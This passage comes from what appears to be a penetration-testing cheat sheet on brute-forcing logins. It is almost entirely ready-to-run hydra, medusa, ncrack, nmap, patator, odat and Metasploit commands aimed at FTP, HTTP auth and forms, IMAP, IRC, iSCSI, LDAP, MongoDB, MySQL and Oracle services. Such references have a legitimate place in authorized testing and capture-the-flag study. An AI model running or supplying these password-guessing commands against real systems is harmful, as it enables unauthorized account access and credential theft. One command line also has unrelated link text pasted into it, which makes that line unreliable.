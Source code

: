 ```
ncrack -p 21 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ftp
```
### HTTP Basic Auth
```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
medusa -h <IP> -u <username> -P  <passwords.txt> -M  http -m DIR:/path/to/auth -T 10
```
### HTTP Post Form
```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
如果是 https ，你可以将 "http-post-form" 替换成"https-post-form"

## HTTP - CMS -- (W)ordpress, (J)oomla or (D)rupal or (M)oodle
cmsmap -f W/J/D/M -u a -p a WordPress.com: Create a Free Website or Blog
```
### IMAP
```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
nmap -sV --script imap-brute -p <PORT> <IP>
```
### IRC
```
nmap -sV --script irc-brute,irc-sasl-brute --script-args userdb=/path/users.txt,passdb=/path/pass.txt -p <PORT> <IP>
```
### ISCSI
```
nmap -sV --script iscsi-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 3260 <IP>
```
### LDAP
```
nmap --script ldap-brute -p 389 <IP>
```
### Mongo
```
nmap -sV --script mongodb-brute -n -p 27017 <IP>
use auxiliary/scanner/mongodb/mongodb_login
```
### MySQL
```
hydra -L usernames.txt -P pass.txt <IP> mysql
msf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false
```
### OracleSQL
```
patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017
./odat.py passwordguesser -s $SERVER -d $SID
./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

#msf1
msf> use admin/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORT 1521
```
